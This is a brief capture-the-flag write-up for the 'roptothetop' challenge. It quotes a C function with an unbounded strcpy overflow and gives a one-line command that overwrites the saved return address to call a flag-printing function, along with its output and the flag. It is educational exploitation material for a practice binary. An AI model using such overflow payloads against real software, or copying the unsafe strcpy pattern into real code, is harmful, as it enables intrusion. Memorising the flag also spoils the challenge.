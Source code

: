 ### Solved by superkojiman

This was an easy challenge, not really sure where the ROP part comes into play though to be honest. The source code and binary are provided. There's an obvious buffer overflow in `fun_copy()` when the `input` parameter is copied into `destination` using `strcpy()`. 

```
void fun_copy(char *input){

    char destination[32];
    strcpy(destination, input);
    puts("Done!");
}
```

`input` is provided as an argument to the binary. All we neeed to do is overwrite the saved return pointer with the address of `the_top()` which prints out the contents of the flag file. 

The saved return pointer is 44 bytes from `destination`. Just overwrite it with the address of `the_top()` which is 0x080484db:

```
team837637@shell:/problems/roptothetop$ ./rop_to_the_top32 `python -c 'print "A"*44 + "\xdb\x84\x04\x08"'`
Now copying input...
Done!
actf{strut_your_stuff}
Segmentation fault (core dumped)
```
